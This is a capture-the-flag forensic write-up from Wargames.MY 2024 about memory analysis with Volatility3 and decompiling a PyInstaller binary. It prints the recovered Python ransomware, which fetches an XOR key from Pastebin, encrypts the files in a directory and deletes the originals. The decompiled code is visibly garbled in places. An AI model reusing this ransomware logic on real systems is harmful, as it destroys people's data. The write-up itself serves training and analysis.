


# [ WriteUp/Notes ] | Tricky Malware | Forensic - Wargames.MY CTF 2024

## By: Haalloobim as [HCS](https://ctftime.org/team/70159)

## Description 
1. Desc: 
My SOC detected there are Ransomware that decrypt file for fun. The script kiddies is so tricky. Here some evidence that we successfully retrieve.

2. Tools:
- [Volatiity3](https://github.com/volatilityfoundation/volatility3)
- [pyinstxtractor](https://pyinstxtractor-web.netlify.app/) 
- [PyLingual](https://pylingual.io/)
- IDA Decompiler

3. File: 
- [Evidence.rar](http://files.wargames.my/2024/Evidence.rar)

## How to solve? 

- We've been provided with a .rar file. In that archive file we've been provided by `.mem` file and `.pcap` file. We use volatility3 to analyze the `.mem` file. For the first phase of analyzing i use `cmdline`, `filescan`, and `pstree` plugin to anayze the file. here is the result. [cmdline](./src/cmdline.txt), [filescan](./src/filescan.txt), [pstree](./src/pstre.txt)    

- After analyzing those plugin result and based on the description, we assumed that at least one of these file is the malware referred to in the description. here is the file:
    - Tabtip.exe 
    - Crypt.exe
    - Slui.exe

- Why we assumed that suspicious, because the filename and where the file took place in the users directory, like example `Crypt.exe` took place in the `\Users\user\Desktop\` beside the `.mem` file, it make me assume that Crypt.exe its not a system/legit file. 
    **you can see the directory of the file using filescan plugin*

- And from that point we dump all that file and start to analyze it. 

    ```sh
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca61199b0 # Tabtip.exe
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca880fa80 # slui.exe
    python3 vol3/vol.py -f memdump.mem dumpfiles --virtaddr 0xbc0ca7eb88c0 # Crypt.exe
    ```
    **all of that virtual address is based on the offset in the filescan plugin result*

- When we analyze all of that three file, one of my teammate notice that one of the file is using pyinstaller and when we look it in the IDA decompiler it also says that the executable in the pyinstaller environment. 

    

- After noticing that it used pyinstaller i used these two tools to extrct and decompile the file. [pyinstxtractor](https://pyinstxtractor-web.netlify.app/) | [PyLingual](https://pylingual.io/) and got this based python code. 

    ```python
    import os
    import requests

    def fetch_key_from_pastebin(url):
        """Fetch the encryption key from a Pastebin URL."""  # inserted
        try:
            response = requests.get(url)
            response.raise_for_status()
            return response.text.strip()
        except requests.exceptions.RequestException as e:
            print(f'Error fetching key: {e}0')
        else:  # inserted
            pass

    def xor_encrypt_decrypt(data, key):
        """Encrypt or decrypt data using XOR with the given key."""  # inserted
        key_bytes = key.encode('utf-8')
        key_length = len(key_bytes)
        return bytes([data[i] ^ key_bytes[i % key_length] for i in range(len(data))])

    def process_file(file_path, key, encrypt=True):
        """Encrypt or decrypt a file and modify its extension."""  # inserted
        try:
            with open(file_path, 'rb') as file:
                pass  # postinserted
        except Exception as e:
                data = file.read()
                processed_data = xor_encrypt_decrypt(data, key)
                if encrypt:
                    new_file_path = file_path + '.oiiaiouiiiai'
                else:  # inserted
                    new_file_path = file_path.rsplit('.oiiaiouiiiai', 1)[0]
                with open(new_file_path, 'wb') as file:
                    file.write(processed_data)
                    os.remove(file_path)
                    print(f'Processed {file_path} -> {new_file_path}')
                print(f'Failed to process {file_path}: {e}')
    if __name__ == '__main__':
        pastebin_url = 'https://pastebin.com/raw/PDXfh5bb'
        key = fetch_key_from_pastebin(pastebin_url)
        if not key:
            print('Failed to retrieve the key.')
            exit(1)
        for file_name in os.listdir():
            if not os.path.isfile(file_name):
                continue
            if file_name == os.path.basename(__file__):
                continue
            if file_name.endswith('.oiiaiouiiiai'):
                process_file(file_name, key, encrypt=False)
            else:  # inserted
                process_file(file_name, key, encrypt=True)
    ```

- As we can see, in that Python code, it encrypts the file and changes its extension to `.oiiaiouiiiai` as an encrypted file. The encryption process uses an XOR operation with a key fetched from Pastebin.

- Then, when we follow through that pastebin link, we can find the flag in it. 



#### Flag: `WGMY{8b9777c8d7da5b10b65165489302af32}`